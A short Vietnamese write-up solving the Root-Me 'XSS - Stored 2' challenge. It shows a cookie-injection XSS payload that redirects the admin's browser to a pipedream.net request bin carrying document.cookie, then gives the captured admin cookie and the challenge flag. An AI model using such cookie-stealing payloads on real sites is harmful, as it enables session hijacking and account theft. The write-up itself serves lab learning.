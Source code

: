 # [XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2#validation_challenge)

## Solutions

Lần này xuất hiện lỗ hổng ở chỗ cookie, khi mà phía server bê nguyên giá trị của cookie `status` vào giữa cặp dấu `""`:

```html
<i class=""></i>
```

Khai thác:

- tạo một bin request: `https://eoy2rz3omrhb838.m.pipedream.net`
- gửi post request với cookie: `status="></i><script>document.location=%22https://eoy2rz3omrhb838.m.pipedream.net?%22.concat(document.cookie)</script><i class="`
- => response:

```html
<i class=""></i><script>document.location="https://eoy2rz3omrhb838.m.pipedream.net?".concat(document.cookie)</script><i class=""></i>
```

- Đợi một lúc sẽ có request của admin kèm cookie: `ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`
- Vào trang admin gửi kèm cookie này đi sẽ lấy được flag: `E5HKEGyCXQVsYaehaqeJs0AfV`

## References
